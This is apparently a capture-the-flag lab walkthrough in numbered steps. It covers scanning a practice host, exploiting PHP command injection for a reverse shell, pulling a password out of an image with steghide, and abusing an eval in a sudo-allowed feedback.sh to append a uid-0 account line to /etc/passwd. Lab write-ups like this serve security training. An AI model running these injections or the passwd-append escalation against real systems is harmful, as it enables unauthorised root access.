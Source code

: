 1. NMAP scan -p22, p80    
2. FFUF
3. http://10.10.57.52/assets/ -> blank  
4. http://10.10.57.52/assets/index.php
5. ### we have a php vulnerability based on below concept   
6. ![image](https://github.com/user-attachments/assets/7e465e80-e5e8-4eec-a5d1-abc07b31bd21)
7. http://example.com/vuln.php?cmd=ls
8. disable_functions = system, exec, shell_exec, passthru, popen, proc_open  
9. $user = escapeshellarg($_GET['user']);    
10. ### expoliting the vulnerability    
11. http://example.com/vuln.php?cmd=id  
12. we get value in base64    
13. Now, lets enter reversehell and url encode     
14. We got reverse shell as www-data  
15. ![image](https://github.com/user-attachments/assets/ec76b8ce-9b6a-4c49-8709-5657bc7308d4)  
16. In images folder we have oneforall.jp and yuei.jpg  
17. wget http://10.10.57.52/assets/images/yuei.jpg    
18. wget http://10.10.57.52/assets/images/oneforall.jpg  
19. We found Hidden_Content directory which has base64 encode passphrase  
20. There is a user Deku but we are unable to view the user.txt file in the folder
21. file oneforall.jpg is corrupt
22. It has magic bytes of png
23. Lets change to jpg
24. https://en.wikipedia.org/wiki/List_of_file_signatures
25. steghide only supports jpg
26. steghide --extract -sf oneforall.jpg
27. It asks for passphrase
28. Stores it to creds.txt
29. we get password for deku
30. we find user flag
31. sudo -l ->  /opt/NewComponent/feedback.sh
32. mkpasswd -m md5crypt -s
33. Password: 123
34. $1$tbnb4vuW$eI8Md2cXWjeQIUMFAmSvg1  
35. test:$1$MgMMCplp$bx1JXnOEyOXMkHf9VnHgK0:0:0:test:/root:/bin/bash
36. 'test:$1$MgMMCplp$bx1JXnOEyOXMkHf9VnHgK0:0:0:test:/root:/bin/bash' >> /etc/passwd
37. su test
38. We get access as root
39. We get root flag
40. ## root flag exploit
41. In the feedback.sh code there is a line "eval "echo $feedback""
42. it exceutes eval $feedback
43. if we enter abc >> file.txt, it echoes, abc to file.txt
44. so, we create a password on our system and make it in the format user is store in /etc/passwd file
45. Then we echo the same to /etc/passwd
46. as eval() is a system function, it get executed

  

